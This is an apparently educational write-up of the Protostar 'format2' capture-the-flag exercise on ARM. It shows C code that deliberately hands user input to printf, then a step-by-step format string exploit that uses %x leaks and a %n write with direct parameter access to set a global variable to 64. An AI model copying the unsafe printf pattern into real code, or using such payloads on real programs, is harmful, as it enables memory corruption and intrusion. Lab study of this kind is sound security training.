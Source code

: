 ## Protostar ARM format2

#### Source Code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);
  printf(buffer);

  if(target == 64) {
      printf("you have modified the target :)\n");
  } else {
      printf("target is %d :(\n", target);
  }
}

int main(int argc, char **argv)
{
  vuln();
}

```

#### _Let's start_


This challenge is pretty similar to the challenge `format1` but this time we must be able to change the variable `target` with a specific value and our payload will be read from the stdin instead of be an argument .  

Let's run our program and find the offset in the stack of our string `AAAA`

```code
pi@raspberrypi:~/Protostar_ARM/format/format2 $ ./format2
AAAA%08x.%08x.%08x.%08x.%08x.%08x
AAAA0.1.7ec51280.41414141.252e7825
target is 0 :(
```

The address of the variable `target` is `0x01010810`

```code
pi@raspberrypi:~/Protostar_ARM/format/format2 $ objdump -t format2 | grep target
01010810 g     O .bss	00000004              target

```

and replacing `AAAA` with this address we are able to change the value of the variable `target`

```code
pi@raspberrypi:~/Protostar_ARM/format/format2 $ echo  `python -c 'print "\x10\x08\x01\x01" + "%08x" * 3 + "%n"'` | ./format2
00000000000000017eafa280
target is 28 :(
```

As described [here](https://crypto.stanford.edu/cs155old/cs155-spring08/papers/formatstring-1.2.pdf)), we can use _**Direct Parameter Access Parameter**_ to directly address a stack parameter from within the format string. So far we have written 4 bytes (*related to the address*) and now we have to add `60 chars`, in order to increase the value to `64`.

```code
pi@raspberrypi:~/Protostar_ARM/format/format2 $ echo `python -c 'print "\x10\x08\x01\x01%60x%4$n"'` | ./format2
                                                           0
you have modified the target :)
```



__*Done :)*__
